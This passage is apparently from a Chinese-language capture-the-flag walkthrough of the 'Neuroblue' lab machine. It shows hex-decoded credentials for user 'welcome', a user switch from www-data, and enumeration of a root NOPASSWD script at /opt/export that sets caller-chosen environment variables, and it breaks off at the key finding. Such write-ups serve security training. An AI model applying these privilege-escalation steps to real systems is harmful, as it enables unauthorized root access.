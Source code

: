 * **解码凭据:** 使用工具（如 CyberChef 或在线转换器）将十六进制解码为 ASCII。

  ![Hex to ASCII conversion](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501142514282.png)

  解码结果为：`welcome:fd869f669309a77cdd`。这是 `welcome` 用户的凭据。

### 4.2. 切换用户 (`www-data` -> `welcome`)

使用获取到的凭据切换到 `welcome` 用户。

```bash
www-data@Neuroblue:/home/welcome$ su welcome
Password: 
welcome@Neuroblue:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功切换到 `welcome` 用户。

### 4.3. 以 `welcome` 身份进行信息收集 (寻找提权向量)

检查 `welcome` 用户的 `sudo` 权限。

```bash
welcome@Neuroblue:/tmp$ sudo -l
Matching Defaults entries for welcome on Neuroblue:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Neuroblue:
    (root) NOPASSWD: /opt/export # <-- 允许以 root 无密码执行 /opt/export
```

同时，查看 `/opt/export` 脚本的内容和权限：

```bash
welcome@Neuroblue:/tmp$ cat /opt/export
#!/bin/bash

if [ -z $1 ] ;then
        echo "This is VMBreaker export program."
        /usr/local/sbin/VMBreaker
        exit 1
fi

export "$1"="$2" # <-- 关键：使用参数设置环境变量
export "$3"="$4"
export "$5"="$6"
export "$7"="$8"
/usr/local/sbin/VMBreaker # <-- 最后执行另一个程序

welcome@Neuroblue:/tmp$ ls -al /opt/export 
-rwxr-xr-x 1 root root 207 Apr 30 08:55 /opt/export
```

**关键发现:**
